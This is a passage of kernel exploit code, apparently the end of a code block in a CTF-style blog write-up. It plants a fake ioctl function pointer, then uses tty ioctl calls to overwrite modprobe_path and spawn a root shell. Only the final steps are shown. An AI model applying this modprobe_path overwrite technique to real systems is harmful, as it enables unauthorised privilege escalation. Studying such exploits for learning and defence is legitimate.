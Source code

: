     // fake ioctl fp
    p_buf[0x64 + 12] = gadget;

    create(fd, poisoned, 0x3ff, 0x3ff);

    ioctl(tty_fds[0], 0x6d6f682f, modeprobe_path);
    ioctl(tty_fds[0], 0x73752f65, modeprobe_path + 4);
    ioctl(tty_fds[0], 0x682f7265, modeprobe_path + 8);
    ioctl(tty_fds[0], 0x007861, modeprobe_path + 12);

    puts("Triggering shell");

    shell();
}
{% endhighlight %}